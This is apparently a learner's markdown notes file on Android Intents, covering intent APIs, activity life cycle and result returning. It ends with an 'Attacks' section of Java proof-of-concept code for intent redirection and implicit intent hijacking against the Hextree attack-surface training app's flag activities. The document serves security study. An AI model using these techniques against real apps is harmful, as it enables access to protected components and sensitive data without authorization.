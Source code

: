 # Intents

- [Interaction with Intents](#interaction-with-intents)
- [Activity Life Cycle](#activity-life-cycle)
- [Returning Activity Results](#returning-activity-results)
- [Attacks](#attacks)
    - [Intent Redirection](#intent-redirection)
    - [Implicit Intents](#implicit-intents)


## Interaction with Intents
- **Commands to interact with intents**
    - `intent.setClassName(<Package_Name>,<Class_Name>);`
    - `startActivity(<Intent_Name>)`
    - `<Intent_Name>.setAction(<Action_Name>)`

- **Nested Intents**
```java
Intent intent3 = new Intent();
intent3.putExtra("reason","back");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

## Activity Life Cycle

- Scenarios When `onNewIntent()` Is Triggered
    1. Activity Launched with `FLAG_ACTIVITY_SINGLE_TOP`:
        - If the activity is already running at the top of the back stack, and a new intent is sent to it with the `Intent.FLAG_ACTIVITY_SINGLE_TOP` flag, the system calls `onNewIntent()` instead of creating a new instance of the activity.
    2. Activity Configured with `launchMode="singleTop"`:

        - If the activity is declared in the `AndroidManifest.xml` file with the launchMode attribute set to `singleTop`, the system calls `onNewIntent()` when the activity is already at the top of the stack and receives a new intent.
        ```xml
        <activity
            android:name=".YourActivity"
            android:launchMode="singleTop" />
        ```

    3. Activity Declared as `singleTask` or `singleInstance`:

        - For activities declared with `launchMode="singleTask"` or `launchMode="singleInstance"`, `onNewIntent()` is called when the activity is already running in a task and a new intent is directed to it.
    4. Task Reuse (`Intent.FLAG_ACTIVITY_REORDER_TO_FRONT`):

        - If you launch an activity that is already in the back stack of the current task using the `FLAG_ACTIVITY_REORDER_TO_FRONT` flag, the system brings it to the front and calls `onNewIntent()`.


## Returning Activity Results
1. `getCallingActivity()`
    - `getCallingActivity()` is used to retrieve the component name of the activity that started the current activity using `startActivityForResult()`.
    ```java
        ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            Log.d("Caller", "Calling activity: " + callingActivity.getClassName());
        }
    ```

2. `startActivityForResult()`

    - `startActivityForResult()` is used to start another activity with the expectation of getting a result back. The result is received in the `onActivityResult()` method.
    ```java
    Intent intent = new Intent(this, SecondActivity.class);
    startActivityForResult(intent, 1); // 1 is the requestCode

    ```

3. `onActivityResult()`
    - `onActivityResult()` is a callback method in the originating activity that receives the result sent back by the target activity.
    ```java
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        if (requestCode == 1) { // Matching the requestCode
            if (resultCode == RESULT_OK) {
                String result = data.getStringExtra("resultKey");
                Log.d("Result", "Result from SecondActivity: " + result);
            }
        }
    }
    ```
    - Results are returned using `setResult()` in the target activity.


## Attacks
### Intent Redirection
- If we can control the intent input of the startActivity() function, it may lead to an intent redirection vulnerability.
```java
// Redirect to flag6 Activity
Intent intent3 = new Intent();
intent3.putExtra("reason","next");
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

> [!NOTE]
> `FLAG_GRANT_READ_URI_PERMISSION`: If set, the recipient of this Intent will be granted permission to perform read operations on the URI in the Intent's data and any URIs specified in its ClipData.

### Implicit Intents

- As an attacker we rarely send implicit intents, because usually we want to explicitly target a specific vulnerable app.

- But receiving implicit intents could result in typical issues. If an app uses implicit intents insecurely, for example when it transmits sensitive data, then registering a handler for this intent could exploit this.

- Example:
```java
Intent intent = getIntent();
Utils.showDialog(this,intent);
if("io.hextree.attacksurface.ATTACK_ME".equals(intent.getAction())){
    String flag = intent.getStringExtra("flag");
    Toast.makeText(this,flag,Toast.LENGTH_LONG).show();
}else{
    Log.d("Flag10", "Not Received");
}
```
```xml
<activity
    android:name=".Second_Activity"
    android:exported="true">
<intent-filter>
    <action android:name="io.hextree.attacksurface.ATTACK_ME"/>
    <category android:name="android.intent.category.DEFAULT" />
</intent-filter>

</activity>
```
